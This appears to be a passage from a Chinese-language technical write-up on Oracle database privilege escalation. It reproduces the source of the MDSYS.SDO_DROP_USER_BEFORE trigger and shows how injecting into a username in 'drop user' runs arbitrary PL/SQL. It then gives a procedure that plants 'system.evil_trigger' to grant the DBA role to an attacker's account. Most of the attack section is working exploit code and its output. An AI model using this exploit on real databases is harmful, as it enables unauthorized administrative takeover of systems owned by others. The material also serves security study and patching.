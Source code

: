 ```
```

上面两行代码是在web环境下使用的代码，pl/sql中更为简单，就不必演示了

> MDSYS.SDO_DROP_USER_BEFORE

之前的DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES属于函数注入，SYS.LTRIC.FINDRICSET属于过程注入，DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS逻辑问题 现在我们要介绍一个更为好玩的MDSYS.SDO_DROP_USER_BEFORE触发器，MDSYS模式下的SDO_DROP_USER_BEFORE，TRIGGER是以definer rigth来执行的，虽然MDSYS没有多大的权限 但是先让我们能够在MDSYS下执行任意命令，先看MDSYS.SDO_DROP_USER_BEFORE的代码

```
trigger sdo_drop_user_before  
before drop on DATABASE  
declare  
stmt varchar2(200);  
rdf_exception EXCEPTION; pragma exception_init(rdf_exception, -20000);  
BEGIN  
if dictionary_obj_type = 'USER' THEN  
BEGIN  
EXECUTE IMMEDIATE  
'begin ' ||  
'mdsys.rdf_apis_internal.' ||  
'notify_drop_user(''' ||  
dictionary_obj_name || '''); ' ||  
'end;';  
EXCEPTION  
WHEN rdf_exception THEN RAISE;  
WHEN OTHERS THEN NULL;  
END;  
end if;  
end;

```

dictionary_obj_name处可以注入，我们可以尝

```
SQL> set serveroutput on  
SQL> drop user "t');dbms_output.put_line('test";  
test  
drop user "t');dbms_output.put_line('test"  
*  
ERROR at line 1:  
ORA-01918: user 't');dbms_output.put_line('test' does not exist

```

相当无语，不过还是因为字数限制，不能利用dbms_xmlquery.getxml来实现无需create procedure，必须创建个过程，但是由于所在模式为MDSYS 不是dba，我们不能利用MDSYS直接获取dba权限，但是MDSYS拥有create any trigger的权限，所以我们可以利用MDSYS在system下 创建一个trigger，trigger是authid current_user,所以我们要利用trigger来在system权限下执行命令，然后我们再触发这个trigger,就可以 在system下执行代码了,talk is cheap,show me the code，直接放代码吧

```
create or replace procedure g(v varchar2) authid current_user is  
PRAGMA AUTONOMOUS_TRANSACTION;  
stmt varchar2(400) := 'create or replace trigger '  
|| 'system.evil_trigger '  
|| 'before insert on '  
|| 'system.OL$ '  
|| 'DECLARE PRAGMA AUTONOMOUS_TRANSACTION;'  
|| 'BEGIN execute immediate ''grant dba to hellove'';END evil_trigger;';  
begin  
execute immediate stmt;  
commit;  
end; 

```
